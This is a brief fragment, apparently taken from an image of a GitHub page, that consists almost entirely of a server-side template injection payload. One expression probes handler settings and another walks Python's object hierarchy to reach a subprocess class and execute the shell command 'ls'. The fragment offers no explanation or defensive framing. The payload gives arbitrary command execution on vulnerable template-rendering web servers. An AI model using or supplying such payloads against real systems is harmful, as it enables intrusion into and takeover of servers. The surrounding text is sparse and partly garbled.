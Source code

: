 - ```python
  {{handler.settings}}
  {{eval('[].__class__.__mro__[1].__subclasses__()[231]("ls",shell=1,stdout=-1).communicate()')}}
  ```